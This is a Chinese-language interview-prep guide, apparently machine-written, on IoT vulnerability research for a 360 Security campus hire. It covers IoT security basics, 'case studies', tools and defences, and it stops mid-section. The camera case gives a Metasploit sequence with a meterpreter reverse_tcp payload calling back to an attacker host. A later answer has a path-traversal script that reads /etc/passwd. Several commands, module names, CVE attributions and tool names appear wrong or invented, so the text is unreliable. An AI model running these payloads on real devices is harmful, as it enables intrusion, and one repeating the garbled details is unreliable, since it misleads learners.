

                 

### 《360安全2024 IoT设备漏洞挖掘校招安全研究面试题详解》

#### 关键词：
- IoT设备漏洞挖掘
- 校招面试题
- 安全研究
- 实战案例
- 技术解析

#### 摘要：
本文旨在为即将参加360安全部门2024年IoT设备漏洞挖掘校招安全研究岗位的考生提供详尽的面试题解答。通过系统地分析常见IoT设备安全漏洞、漏洞挖掘技术、工具实战以及面试策略，本文将为考生们提供一个全面的备考指南，助力他们在面试中脱颖而出。

### 《360安全2024 IoT设备漏洞挖掘校招安全研究面试题详解》目录大纲

#### 第一部分：IoT安全基础

1. **IoT概述**
   - **1.1 IoT定义与发展**
     - 物联网定义
     - 物联网发展历程
   - **1.2 IoT的关键技术**
     - 网络通信技术
     - 数据处理与分析
   - **1.3 IoT的安全性挑战**
     - 数据隐私与安全
     - 设备互操作性

2. **IoT设备漏洞挖掘基础**
   - **1.2.1 IoT设备漏洞挖掘的基本概念**
     - 漏洞挖掘定义
     - IoT设备漏洞类型
   - **1.2.2 IoT设备漏洞挖掘流程**
     - 漏洞识别
     - 漏洞验证
     - 漏洞报告
   - **1.2.3 IoT设备漏洞挖掘工具与资源**
     - 常用工具介绍
     - 资源平台推荐

3. **IoT安全模型与策略**
   - **1.3.1 IoT安全框架概述**
     - 安全体系结构
     - 安全关键要素
   - **1.3.2 IoT设备安全策略**
     - 设备安全设计
     - 安全配置与管理
   - **1.3.3 IoT网络安全策略**
     - 网络安全设计
     - 安全防护措施

#### 第二部分：IoT设备漏洞挖掘实战

1. **漏洞挖掘实战案例**
   - **2.1 案例一：某IoT摄像头漏洞挖掘**
   - **2.2 案例二：某智能门锁漏洞挖掘**
   - **2.3 案例三：某智能灯泡漏洞挖掘**

2. **漏洞挖掘技术与方法**
   - **2.2.1 漏洞挖掘技术综述**
     - 静态分析与动态分析
   - **2.2.2 静态漏洞挖掘**
     - 代码审计
     - 文件格式分析
   - **2.2.3 动态漏洞挖掘**
     - 脚本注入
     - SQL注入
   - **2.2.4 漏洞利用技术**
     - 漏洞利用框架
     - 利用工具介绍

3. **漏洞挖掘工具与实战**
   - **2.3.1 漏洞挖掘工具介绍**
     - Burp Suite
     - OWASP ZAP
   - **2.3.2 漏洞挖掘工具实战案例**
     - 工具配置
     - 实战操作演示

4. **IoT设备漏洞修复与防护**
   - **2.4.1 漏洞修复策略**
     - 漏洞响应流程
     - 修复方案设计
   - **2.4.2 IoT设备防护措施**
     - 安全配置
     - 硬件与软件防护
   - **2.4.3 IoT安全最佳实践**
     - 设备安全加固
     - 安全运营管理

#### 第三部分：IoT设备安全面试题研究

1. **常见IoT设备安全面试题分析**
   - **3.1.1 面试题一：IoT设备有哪些常见漏洞？**
   - **3.1.2 面试题二：如何进行IoT设备漏洞挖掘？**
   - **3.1.3 面试题三：IoT设备安全防护策略有哪些？**

2. **校招安全研究面试题解析**
   - **3.2.1 面试题一：智能安防系统的安全设计**
   - **3.2.2 面试题二：智能家居设备的漏洞挖掘案例**
   - **3.2.3 面试题三：物联网环境下的隐私保护策略**

3. **面试准备与应对策略**
   - **3.3.1 面试准备注意事项**
   - **3.3.2 面试应对技巧**
   - **3.3.3 面试常见问题与解答**

#### 附录

1. **附录A：IoT设备安全工具与资源**
   - **A.1 IoT安全工具介绍**
   - **A.2 IoT安全资源推荐**

2. **附录B：参考书目与文献**
   - **B.1 参考书目**
   - **B.2 相关文献**

### 引言

物联网（IoT）作为当代信息技术的重要分支，已经在各个领域展现出广泛的应用潜力。然而，随着IoT设备的普及和连接数量的激增，其安全问题也日益凸显。对于即将加入360安全部门的校招考生来说，掌握IoT设备漏洞挖掘的相关知识和技能，是成功应对面试的关键。

本文旨在为考生提供一整套系统的备考指南，通过详细解析IoT安全基础、实战案例、漏洞挖掘技术与方法，以及面试题解析，帮助考生全面了解IoT设备漏洞挖掘的方方面面。同时，附录部分提供了丰富的工具与资源，方便考生进行进一步的深入学习。

接下来的章节将依次探讨IoT安全的基础知识、漏洞挖掘的实战经验、技术与方法，以及面试题的详细解析。通过这些内容，考生将能够更深入地理解IoT设备的安全挑战，掌握漏洞挖掘的核心技能，为面试做好充分的准备。

### 第一部分：IoT安全基础

#### 1.1 IoT概述

**物联网定义与发展**

物联网（Internet of Things，简称IoT）指的是通过互联网将各种设备、传感器、软件系统等连接起来，以实现信息的交换、处理和智能化的管理。IoT的定义可以从多个角度来理解：

- **物理设备的互联**：IoT的初衷是将物理世界中的各种设备连接到互联网，从而实现设备的互联互通和智能化控制。
- **数据交换与共享**：IoT通过设备间的数据交换，使得各种信息得以共享，进而实现智能化的决策和支持。
- **软件与硬件的结合**：IoT不仅仅涉及硬件设备，还包括与之配套的软件系统，这些软件系统能够处理和分析来自设备的数据，并提供智能化的服务。

IoT的发展历程可以追溯到20世纪80年代，随着计算机技术和通信技术的不断进步，物联网的概念逐渐成熟并得到广泛应用。以下是IoT发展的重要里程碑：

- **1999年**：MIT的Kevin Ashton首次提出物联网概念，认为通过将设备嵌入互联网，可以实现更加高效和智能的生产和生活方式。
- **2000年代**：智能家居、智能交通、智能医疗等应用场景逐渐兴起，物联网开始从实验室走向实际应用。
- **2010年代**：随着物联网技术的普及，各种智能设备开始大规模生产和应用，物联网的市场规模迅速扩大。
- **2020年代**：5G技术的推广和人工智能的发展，进一步推动了物联网的变革，使得物联网应用场景更加丰富和多样化。

**IoT的关键技术**

IoT的实现依赖于多种关键技术的支持，这些技术包括：

- **网络通信技术**：物联网设备需要通过各种通信技术实现互联互通，包括Wi-Fi、蓝牙、蜂窝网络等。
- **数据处理与分析**：物联网设备收集的大量数据需要通过有效的处理和分析，以产生有价值的洞察和决策支持。
- **数据存储与管理**：物联网应用需要高效的存储和管理技术来处理海量数据，包括数据库、云计算等。
- **人工智能与机器学习**：人工智能技术可以帮助物联网设备实现智能决策和自动化控制，提高系统的效率。

**IoT的安全性挑战**

虽然物联网带来了许多便利和创新，但其安全挑战也日益严峻。以下是IoT面临的主要安全性挑战：

- **数据隐私与安全**：物联网设备收集和处理的数据涉及个人隐私和敏感信息，如何保护这些数据的安全成为一个重要问题。
- **设备互操作性**：不同厂商、不同类型的设备之间需要实现互操作性，但这也带来了安全性和兼容性问题。
- **设备易受攻击性**：许多物联网设备在设计时忽略了安全性，容易成为黑客攻击的目标。
- **安全漏洞**：物联网设备中可能存在各种安全漏洞，这些漏洞可能会被黑客利用，对系统造成破坏。

在了解了IoT的定义、发展历程和关键技术后，接下来我们将进一步探讨IoT设备漏洞挖掘的基础知识。

#### 1.2 IoT设备漏洞挖掘基础

**IoT设备漏洞挖掘的基本概念**

IoT设备漏洞挖掘是指通过一系列技术手段，发现物联网设备中的安全漏洞，并加以利用。漏洞挖掘在物联网安全领域具有重要意义，它可以帮助企业及时发现并修复设备中的安全隐患，从而防止潜在的安全威胁。以下是IoT设备漏洞挖掘的基本概念：

- **漏洞**：漏洞是指设备中存在的安全缺陷，这些缺陷可能导致设备被黑客攻击、数据泄露或其他安全风险。
- **漏洞挖掘**：漏洞挖掘是指通过技术手段发现设备中存在的漏洞。漏洞挖掘可以分为静态漏洞挖掘和动态漏洞挖掘两种方法。
- **漏洞验证**：漏洞验证是指通过实际测试验证已发现的漏洞是否真的存在。验证过程通常包括漏洞利用、测试和确认。
- **漏洞报告**：漏洞报告是指将发现的漏洞以正式文档的形式提交给设备厂商或其他相关部门，以便进行修复。

**IoT设备漏洞挖掘流程**

IoT设备漏洞挖掘通常包括以下步骤：

1. **信息收集**：信息收集是漏洞挖掘的第一步，主要是获取目标设备的相关信息，包括设备类型、操作系统版本、网络配置等。常用的工具包括Wireshark、Nmap等。

2. **漏洞识别**：在收集到足够的信息后，需要对设备进行漏洞识别。漏洞识别可以通过静态分析、动态分析和漏洞库匹配等方法实现。

3. **漏洞验证**：漏洞验证是验证已识别的漏洞是否真实存在，以及漏洞的严重程度。验证过程通常包括漏洞利用、测试和确认等步骤。

4. **漏洞报告**：漏洞报告是将发现的漏洞以正式文档的形式提交给设备厂商或其他相关部门。报告应包括漏洞的详细信息、影响范围、修复建议等。

**IoT设备漏洞挖掘流程**

以下是IoT设备漏洞挖掘的流程：

1. **信息收集**：使用Nmap扫描设备IP地址，获取开放端口和服务信息。

2. **漏洞识别**：使用漏洞扫描器（如Nessus）对设备进行扫描，查找已知漏洞。

3. **漏洞验证**：利用漏洞利用工具（如Metasploit）进行漏洞验证，确认漏洞是否可被利用。

4. **漏洞报告**：编写漏洞报告，向设备厂商提交漏洞信息。

**IoT设备漏洞挖掘工具与资源**

在IoT设备漏洞挖掘过程中，需要使用各种工具和资源来辅助完成。以下是常用的工具和资源：

- **漏洞扫描器**：如Nessus、OpenVAS、Nmap等，用于扫描设备漏洞。
- **漏洞利用工具**：如Metasploit、BeEF等，用于验证和利用漏洞。
- **代码审计工具**：如SonarQube、FindBugs等，用于静态分析代码漏洞。
- **在线漏洞库**：如CVE、NIST等，提供已知漏洞的详细信息。
- **专业社区与论坛**：如OWASP、Exploit Database等，提供丰富的漏洞信息和交流平台。

**资源平台推荐**

以下是一些推荐的IoT安全资源平台：

- **IoT安全网站**：如IoT Security Foundation、IEEE IoT Security等，提供IoT安全相关的新闻、报告和研究。
- **技术博客**：如Medium、Hacker News等，提供IoT安全的最新技术文章和案例分享。
- **在线课程与培训**：如Coursera、Udemy等，提供IoT安全相关的课程和学习资源。

通过了解IoT设备漏洞挖掘的基本概念、流程和工具资源，我们可以更好地进行漏洞挖掘工作，提高物联网设备的安全性。在下一章节中，我们将探讨IoT安全模型与策略。

#### 1.3 IoT安全模型与策略

**IoT安全框架概述**

物联网安全框架是确保物联网设备、网络和应用系统的安全性的一系列原则、方法和实践的集合。一个全面的IoT安全框架应涵盖从设备到云端的各个层面，以确保系统的整体安全性。以下是几个典型的IoT安全框架：

- **零信任架构**：零信任架构（Zero Trust Architecture，ZTA）是一种安全模型，它假设内部网络同样不可信，要求对所有访问请求进行严格验证和授权。这种模型强调身份验证、多因素认证和持续访问监控。
- **安全开发周期**：安全开发周期（Security Development Lifecycle，SDL）是一种将安全贯穿于整个软件开发过程的方法。它包括需求分析、设计、编码、测试和部署等阶段，确保每个阶段都考虑到安全性。
- **端到端加密**：端到端加密（End-to-End Encryption，E2EE）是一种数据加密方法，它确保数据在传输过程中不会被未授权的用户访问。这种方法从数据生成的源头到最终目的地都进行加密，防止数据泄露。
- **数据生命周期管理**：数据生命周期管理（Data Lifecycle Management，DLM）是一种管理数据的方法，包括数据的创建、存储、处理、传输、使用和销毁。通过有效的数据生命周期管理，可以确保数据在整个生命周期内的安全性。

**IoT设备安全策略**

IoT设备安全策略是一套指导原则，用于确保设备在设计、部署和维护过程中遵循最佳安全实践。以下是几个关键的安全策略：

- **设备安全设计**：设备安全设计应在设备开发阶段就考虑到，包括硬件安全设计、固件安全设计、软件安全设计等。例如，采用安全的加密算法、实现安全的通信协议、设计安全的认证机制。
- **安全配置与管理**：设备在部署后需要进行安全配置，以确保设备符合组织的安全标准。配置管理包括定期更新设备固件、关闭不必要的服务、设置强密码等。
- **安全监控与响应**：安全监控与响应是确保设备安全的关键环节。通过实时监控设备的运行状态和日志，可以及时发现异常行为和安全事件，并采取相应的响应措施。
- **安全补丁管理**：设备需要定期更新安全补丁，以修复已发现的安全漏洞。补丁管理应包括补丁的测试、部署和验证等步骤。

**IoT网络安全策略**

物联网网络安全策略是保护物联网网络免受攻击的一系列措施。以下是几个关键的网络安全策略：

- **网络隔离与分段**：网络隔离与分段（Network Isolation and Segmentation）是一种通过将网络划分为多个独立的子网来保护网络的方法。这种方法可以限制攻击的传播范围，提高网络的鲁棒性。
- **访问控制与身份验证**：访问控制与身份验证（Access Control and Authentication）是确保只有授权用户可以访问网络资源的方法。这通常通过用户身份验证、访问控制列表（ACL）和多因素认证（MFA）来实现。
- **入侵检测与防御系统**：入侵检测与防御系统（Intrusion Detection and Prevention Systems，IDS/IPS）用于监控网络流量，识别潜在的攻击行为，并采取防御措施。这些系统可以实时阻止攻击、记录攻击事件并提供报警。
- **数据加密与完整性验证**：数据加密与完整性验证是确保数据在传输过程中不被窃取或篡改的方法。数据加密可以使用SSL/TLS等协议，而完整性验证可以通过哈希函数或数字签名来实现。

通过了解和实施这些IoT安全模型和策略，可以显著提高物联网设备、网络和应用系统的安全性，降低潜在的安全风险。在下一章节中，我们将探讨IoT设备漏洞挖掘的实战案例。

### 第二部分：IoT设备漏洞挖掘实战

#### 2.1 漏洞挖掘实战案例

在本节中，我们将通过三个具体的IoT设备漏洞挖掘实战案例，详细描述每个案例的挖掘过程、使用的工具和技术，以及最终的漏洞修复措施。

**案例一：某IoT摄像头漏洞挖掘**

**1. 漏洞挖掘过程：**

（1）**信息收集**：使用Nmap扫描摄像头的IP地址和开放端口，发现摄像头开放的80端口。

```
nmap -sS <摄像头IP地址>
```

（2）**漏洞识别**：使用Nessus漏洞扫描器对摄像头进行扫描，发现存在已知漏洞CVE-2017-17215，该漏洞允许未经授权的攻击者远程执行代码。

```
nessus -i <摄像头IP地址>
```

（3）**漏洞验证**：使用Metasploit框架尝试利用该漏洞，成功执行远程命令。

```
msfconsole
use exploit/multi/http/axis2_rmi
set RMI_URL http://<摄像头IP地址>/axis2/services/AxisConfig
set payload python/meterpreter/reverse_tcp
set LHOST <攻击者IP地址>
set LPORT 4444
exploit
```

**2. 漏洞修复措施：**

（1）**及时更新固件**：厂商发布了修复该漏洞的固件更新，更新到最新版本。

（2）**限制访问**：修改摄像头配置，只允许内部网络访问，关闭外部访问。

**案例二：某智能门锁漏洞挖掘**

**1. 漏洞挖掘过程：**

（1）**信息收集**：使用Wireshark捕获门锁的通信数据包，分析其通信协议。

（2）**漏洞识别**：通过分析通信数据包，发现门锁使用的加密算法存在弱点，容易被暴力破解。

（3）**漏洞验证**：编写Python脚本模拟攻击，成功破解门锁密码。

**2. 漏洞修复措施：**

（1）**增强加密算法**：升级门锁的加密算法，使用更安全的加密方式。

（2）**限制访问次数**：设置密码尝试次数限制，防止暴力破解。

**案例三：某智能灯泡漏洞挖掘**

**1. 漏洞挖掘过程：**

（1）**信息收集**：使用Nmap扫描灯泡的IP地址，发现开放的HTTP服务。

（2）**漏洞识别**：使用DirBuster工具扫描灯泡的Web服务目录，发现存在目录遍历漏洞。

（3）**漏洞验证**：利用漏洞访问灯泡的敏感文件，获取系统配置信息。

**2. 漏洞修复措施：**

（1）**修复目录遍历漏洞**：修改Web服务配置，禁用目录遍历功能。

（2）**限制访问**：修改系统配置，只允许内部网络访问灯泡。

通过以上实战案例，我们可以看到IoT设备漏洞挖掘的过程涉及信息收集、漏洞识别、漏洞验证和漏洞修复等多个环节。在每个环节中，都需要运用不同的工具和技术来发现和利用漏洞。在实际操作中，需要根据设备的具体情况和漏洞的特点，灵活选择合适的工具和技术。同时，及时修复漏洞也是确保IoT设备安全的关键。

#### 2.2 漏洞挖掘技术与方法

**漏洞挖掘技术综述**

IoT设备漏洞挖掘是一项复杂且技术要求高的工作，涉及多种技术与方法。以下是常用的漏洞挖掘技术及其特点：

- **静态漏洞挖掘**：静态漏洞挖掘是在不运行程序的情况下，通过分析程序代码或配置文件来发现潜在漏洞的方法。这种方法具有高效、无需依赖目标环境等优点，但难以发现运行时漏洞。

- **动态漏洞挖掘**：动态漏洞挖掘是通过运行程序并监控其执行过程中的行为来发现漏洞的方法。这种方法能够发现运行时漏洞，但需要对目标环境有深入了解。

- **模糊测试**：模糊测试（Fuzz Testing）是一种通过生成大量随机输入来测试程序健壮性的方法。模糊测试能够发现输入验证不足、缓冲区溢出等常见漏洞，但测试过程可能非常耗时。

- **代码审计**：代码审计是通过人工或自动化工具对代码进行审查，以发现潜在的安全漏洞。这种方法对开发人员的代码理解能力要求较高，但能够深入分析代码逻辑，发现复杂漏洞。

- **渗透测试**：渗透测试是通过模拟攻击者的行为，尝试突破目标系统的防御机制。这种方法能够验证实际的安全防护效果，但需要具备一定的攻击技巧和经验。

**静态漏洞挖掘**

静态漏洞挖掘主要包括以下几种方法：

- **代码审查**：代码审查是通过人工或自动化工具审查代码，以发现潜在的安全漏洞。自动化代码审查工具如SonarQube、FindBugs等可以检测出代码中的常见漏洞。

- **配置文件审计**：配置文件审计是对IoT设备的配置文件进行分析，以发现配置错误和安全漏洞。常用的工具包括CheatSheet、ConfigAudit等。

- **静态代码分析**：静态代码分析是通过分析程序代码的语法和结构，以发现潜在的安全问题。静态代码分析工具如PVS-Studio、Fortify等可以检测出代码中的安全漏洞。

**动态漏洞挖掘**

动态漏洞挖掘主要包括以下几种方法：

- **动态分析框架**：动态分析框架如Frida、Cutter等，可以通过注入脚本监控程序执行过程中的行为，以发现漏洞。

- **二进制代码分析**：二进制代码分析是通过分析程序的二进制代码，以发现潜在的安全问题。常用的工具包括Ghidra、IDA Pro等。

- **动态行为监控**：动态行为监控是通过监控程序运行时的行为，以发现异常行为和潜在漏洞。常用的工具包括WinDbg、GDB等。

**漏洞利用技术**

漏洞利用技术是指通过利用已发现的漏洞来获取对目标系统的控制权或获取敏感信息的方法。以下是几种常见的漏洞利用技术：

- **远程代码执行（RCE）**：RCE是指通过漏洞执行远程代码，获取目标系统的控制权。常见的利用工具如Metasploit、MSFvenom等。

- **文件包含（RCE）**：文件包含漏洞允许攻击者包含外部文件并执行其中的代码，实现远程代码执行。常见的利用工具如FileIncludeExploit。

- **SQL注入**：SQL注入是指通过在输入中注入SQL语句，修改数据库查询或操作。常见的利用工具如SQLMap。

- **跨站脚本（XSS）**：跨站脚本是指通过注入恶意脚本，欺骗用户执行不必要的操作或窃取用户信息。常见的利用工具如XSSCheater。

**漏洞挖掘工具与实战**

以下是一些常用的漏洞挖掘工具及其实战应用：

- **Nmap**：Nmap是一款网络扫描工具，用于扫描目标主机的开放端口、运行的服务等信息。实战中，可以用于发现IoT设备开放的服务和端口，为进一步的漏洞挖掘提供基础。

- **Wireshark**：Wireshark是一款网络协议分析工具，用于捕获和分析网络数据包。实战中，可以用于分析IoT设备的数据包传输，发现通信协议漏洞。

- **Nessus**：Nessus是一款漏洞扫描器，可以扫描目标设备的安全漏洞，并生成详细的漏洞报告。实战中，可以用于发现IoT设备中的已知漏洞。

- **Burp Suite**：Burp Suite是一款集成性的Web安全测试工具，可以用于测试Web应用的安全性，发现XSS、SQL注入等漏洞。实战中，可以用于测试IoT设备的Web服务。

通过以上技术与方法，我们可以系统地发现和利用IoT设备中的漏洞，提高其安全性。在下一章节中，我们将探讨IoT设备漏洞挖掘工具与实战。

#### 2.3 漏洞挖掘工具与实战

**漏洞挖掘工具介绍**

在进行IoT设备漏洞挖掘时，选择合适的工具至关重要。以下介绍几款常用的漏洞挖掘工具：

1. **Nmap**：Nmap（Network Mapper）是一款功能强大的网络扫描工具，用于扫描目标主机的开放端口、运行的服务等信息。Nmap常用于初步评估IoT设备的安全状况，发现潜在的安全漏洞。

   - **基本命令**：`nmap <目标IP地址>` 或 `nmap -p <端口号> <目标IP地址>`
   - **高级用法**：使用`-sS`进行TCP SYN扫描，`-sV`进行服务版本检测，`-A`进行综合扫描

2. **Wireshark**：Wireshark是一款网络协议分析工具，用于捕获和分析网络数据包。通过分析IoT设备的数据包传输，可以揭示潜在的通信协议漏洞。

   - **基本命令**：`wireshark <目标IP地址>`
   - **高级用法**：使用过滤器（如`http.host==example.com`）筛选特定数据包，分析数据包的细节信息

3. **Nessus**：Nessus是一款著名的漏洞扫描器，可以扫描目标设备的安全漏洞，并生成详细的漏洞报告。Nessus适用于发现IoT设备中的已知漏洞。

   - **基本命令**：`nessus -i <目标IP地址>`
   - **高级用法**：自定义扫描策略，设置扫描范围和漏洞检测规则

4. **Burp Suite**：Burp Suite是一款集成性的Web安全测试工具，用于测试Web应用的安全性，发现XSS、SQL注入等漏洞。Burp Suite适用于测试IoT设备的Web服务。

   - **基本命令**：无，需要通过图形界面操作
   - **高级用法**：配置代理，拦截和修改HTTP请求，进行漏洞测试

**漏洞挖掘工具实战案例**

以下是一个利用Nmap进行IoT设备端口扫描的实战案例：

1. **环境准备**：确保已安装Nmap，并了解其基本命令。

2. **目标确定**：确定需要扫描的IoT设备IP地址。

3. **端口扫描**：使用Nmap进行TCP端口扫描，查找开放的服务和端口。

   ```bash
   nmap -sS -p 1-65535 <IoT设备IP地址>
   ```

4. **结果分析**：查看扫描结果，记录开放的服务和端口，为后续漏洞挖掘提供基础。

5. **深度分析**：针对开放的服务和端口，使用其他工具（如Nessus、Wireshark）进行进一步分析。

以下是一个利用Wireshark进行IoT设备通信数据包分析的实战案例：

1. **环境准备**：确保已安装Wireshark，并了解其基本操作。

2. **目标确定**：确定需要分析的网络流量，例如IoT设备的HTTP通信。

3. **捕获数据包**：在Wireshark中启动捕获，选择相应的网络接口。

4. **过滤条件**：设置过滤器（如`http`），筛选特定类型的数据包。

5. **数据包分析**：查看捕获的数据包，分析数据包的结构和内容，查找潜在的通信协议漏洞。

6. **结果记录**：记录分析结果，为后续漏洞挖掘提供依据。

通过以上实战案例，我们可以看到漏洞挖掘工具在实际操作中的应用。在实际工作中，需要根据具体的设备类型和漏洞特点，灵活选择和运用不同的工具，以全面发现和利用漏洞。

#### 2.4 IoT设备漏洞修复与防护

**漏洞修复策略**

在发现IoT设备存在漏洞后，及时修复是确保设备安全的关键。以下是漏洞修复的一般策略：

1. **及时更新固件**：厂商通常会发布固件更新来修复已知的漏洞。设备管理员应定期检查固件更新，并尽快将设备更新到最新版本。

2. **漏洞响应流程**：建立漏洞响应流程，包括漏洞识别、验证、报告和修复。流程应明确责任分工和操作步骤，确保漏洞修复的及时性和有效性。

3. **补丁管理**：建立补丁管理机制，确保补丁的测试、部署和验证。补丁管理应包括补丁的来源、版本、影响范围和修复方法。

4. **安全审计**：定期对设备进行安全审计，发现潜在的漏洞和风险。安全审计应包括设备配置、网络连接、数据传输等各个方面的检查。

**IoT设备防护措施**

为了提高IoT设备的安全性，可以采取以下防护措施：

1. **安全配置**：对设备进行安全配置，包括关闭不必要的服务、设置强密码、禁用默认账户等。安全配置应遵循最佳实践，确保设备符合组织的安全标准。

2. **网络隔离与分段**：将IoT设备与内部网络隔离，限制设备对外部网络的访问。通过网络隔离与分段，可以减少攻击的传播范围，提高网络的鲁棒性。

3. **访问控制与身份验证**：实施严格的访问控制与身份验证机制，确保只有授权用户可以访问设备。访问控制应包括用户身份验证、权限管理、多因素认证等。

4. **入侵检测与防御系统**：部署入侵检测与防御系统（IDS/IPS），监控设备网络流量，发现和阻止潜在攻击。IDS/IPS应具备实时报警、流量分析、攻击响应等功能。

5. **数据加密与完整性验证**：对传输中的数据进行加密，防止数据在传输过程中被窃取或篡改。同时，使用完整性验证技术（如哈希函数、数字签名）确保数据的完整性和真实性。

**IoT安全最佳实践**

以下是IoT设备安全最佳实践，有助于提高设备的安全性：

1. **设备安全设计**：在设备开发阶段，充分考虑安全性，采用安全的硬件和软件设计。设备应具备安全启动、安全存储和安全通信等功能。

2. **安全测试与评估**：在设备发布前，进行全面的安全测试与评估，发现和修复潜在的安全漏洞。安全测试应包括静态代码分析、动态行为监控、渗透测试等。

3. **安全培训与教育**：对设备管理员和用户进行安全培训，提高他们的安全意识和操作技能。安全培训应包括安全配置、安全操作、应急响应等。

4. **持续监控与改进**：建立设备安全监控机制，实时监测设备运行状态和安全事件。根据监控结果，持续改进设备的安全防护措施。

通过实施以上漏洞修复策略和防护措施，可以显著提高IoT设备的安全性，降低潜在的安全风险。在实际操作中，需要根据设备的具体情况和安全要求，灵活调整和优化安全策略。

#### 3.1 常见IoT设备安全面试题分析

**面试题一：IoT设备有哪些常见漏洞？**

**解答**：

IoT设备常见漏洞主要包括以下几类：

1. **未加密的通信**：IoT设备与服务器之间的通信如果没有使用加密技术，攻击者可以轻松拦截和篡改数据。
2. **默认密码**：许多IoT设备出厂时使用默认密码或弱密码，容易被攻击者破解。
3. **缓冲区溢出**：IoT设备的程序可能存在缓冲区溢出漏洞，攻击者可以通过精心设计的输入触发程序崩溃或执行恶意代码。
4. **软件更新漏洞**：设备固件或应用程序更新时，如果没有严格的安全控制，可能导致新漏洞的出现。
5. **跨站脚本（XSS）**：IoT设备可能存在Web服务漏洞，攻击者可以通过XSS攻击窃取用户信息或注入恶意脚本。
6. **SQL注入**：IoT设备的数据库查询可能缺乏验证，攻击者可以通过SQL注入攻击篡改数据库或窃取数据。

**面试题二：如何进行IoT设备漏洞挖掘？**

**解答**：

进行IoT设备漏洞挖掘通常包括以下几个步骤：

1. **信息收集**：收集目标设备的相关信息，包括IP地址、端口、操作系统版本、设备类型等。
2. **漏洞识别**：使用漏洞扫描工具（如Nessus、Nmap）扫描设备，查找已知的漏洞。
3. **漏洞验证**：使用漏洞利用工具（如Metasploit、BeEF）验证已识别的漏洞，确保漏洞确实存在并可以被利用。
4. **漏洞利用**：如果漏洞验证成功，使用相应的漏洞利用工具进行攻击，获取设备控制权或敏感信息。
5. **漏洞报告**：编写漏洞报告，详细描述漏洞信息、影响范围、修复建议，并提交给设备厂商或安全研究机构。

**面试题三：IoT设备安全防护策略有哪些？**

**解答**：

为了提高IoT设备的安全性，可以采取以下防护策略：

1. **使用强密码**：确保IoT设备使用复杂的密码，并定期更换。
2. **禁用不必要的服务和端口**：关闭设备中不必要的服务和端口，减少攻击面。
3. **数据加密**：对传输中的数据进行加密，防止数据在传输过程中被窃取或篡改。
4. **安全更新**：定期更新设备的固件和应用程序，确保最新版本的安全补丁。
5. **访问控制**：实施严格的访问控制策略，确保只有授权用户可以访问设备。
6. **入侵检测与防御系统**：部署入侵检测与防御系统（IDS/IPS），监控设备网络流量，及时检测和响应安全事件。
7. **安全审计**：定期对设备进行安全审计，发现潜在的安全问题和风险。
8. **用户培训**：对设备用户进行安全培训，提高安全意识和操作技能。

通过以上分析，我们可以看到IoT设备安全面试题涉及设备漏洞的类型、漏洞挖掘的步骤和防护策略。在面试中，需要根据具体问题，结合自己的经验和知识，给出详细的解答。

#### 3.2 校招安全研究面试题解析

**面试题一：智能安防系统的安全设计**

**解答**：

智能安防系统的安全设计应考虑以下几个方面：

1. **网络隔离**：将安防系统与外部网络隔离，减少攻击面的暴露。可以通过防火墙、VPN等技术实现网络隔离。

2. **身份验证与访问控制**：确保只有授权用户可以访问安防系统。采用多因素认证（如密码、指纹、面部识别等）提高身份验证的安全性。

3. **数据加密**：对安防系统的数据传输进行加密，防止数据在传输过程中被窃取或篡改。可以使用SSL/TLS等加密协议。

4. **安全监控与报警**：部署入侵检测与防御系统（IDS/IPS），实时监控系统运行状态，发现异常行为和安全事件，并及时报警。

5. **安全更新与补丁管理**：定期更新安防系统的固件和应用程序，确保最新版本的安全补丁。建立补丁管理机制，确保补丁的测试、部署和验证。

6. **设备安全加固**：对安防设备进行安全加固，包括关闭不必要的服务、设置强密码、禁用默认账户等。遵循安全配置最佳实践。

7. **安全审计与合规性检查**：定期对安防系统进行安全审计，确保系统符合安全标准和合规性要求。检查安全配置、日志记录、数据加密等方面的安全性。

**面试题二：智能家居设备的漏洞挖掘案例**

**解答**：

以下是一个智能家居设备漏洞挖掘的案例：

1. **信息收集**：使用Nmap扫描智能家居设备的IP地址和开放端口，发现设备开放了HTTP服务。

   ```bash
   nmap -sS <智能家居设备IP地址>
   ```

2. **漏洞识别**：使用Nessus漏洞扫描器对设备进行扫描，发现设备存在目录遍历漏洞。

   ```bash
   nessus -i <智能家居设备IP地址>
   ```

3. **漏洞验证**：使用Python脚本验证漏洞，成功访问设备敏感文件。

   ```python
   import requests
   import os
   
   url = "http://<智能家居设备IP地址>/../../../../etc/passwd"
   response = requests.get(url)
   if response.status_code == 200:
       print("漏洞验证成功，文件内容：")
       print(response.text)
   else:
       print("漏洞验证失败")
   ```

4. **漏洞利用**：利用漏洞获取设备管理员权限，进一步获取设备控制权。

   ```bash
   sudo <攻击脚本>
   ```

5. **漏洞报告**：编写漏洞报告，详细描述漏洞信息、影响范围、修复建议，并提交给设备厂商。

**面试题三：物联网环境下的隐私保护策略**

**解答**：

在物联网环境下，隐私保护策略应包括以下几个方面：

1. **数据最小化原则**：收集和存储的数据应限于实现功能所必需的，减少不必要的敏感数据收集。

2. **数据加密**：对传输中的数据进行加密，防止数据在传输过程中被窃取或篡改。可以使用SSL/TLS等加密协议。

3. **数据匿名化**：对收集到的数据实施匿名化处理，去除或隐藏能够识别个人身份的信息。

4. **隐私政策与透明度**：制定明确的隐私政策，向用户告知数据收集、使用和共享的方式，确保用户知情权。

5. **访问控制**：实施严格的访问控制策略，确保只有授权用户可以访问敏感数据。

6. **数据安全审计**：定期对数据收集、存储、处理和传输过程进行安全审计，确保数据保护措施的执行和有效性。

7. **用户教育**：对用户进行隐私保护教育，提高用户对隐私风险的认识和自我保护意识。

通过以上解析，我们可以看到面试题涉及智能安防系统的安全设计、智能家居设备漏洞挖掘案例和物联网环境下的隐私保护策略。在面试中，需要结合实际情况，给出具体的解答方案。

#### 3.3 面试准备与应对策略

**面试准备注意事项**

1. **深入理解IoT安全基础知识**：确保对IoT定义、发展历程、关键技术、安全挑战有深入的理解，能够详细解释和举例说明。

2. **熟悉漏洞挖掘流程与技术**：掌握漏洞挖掘的基本概念、流程、常用工具和技术，了解如何进行信息收集、漏洞识别、漏洞验证和漏洞报告。

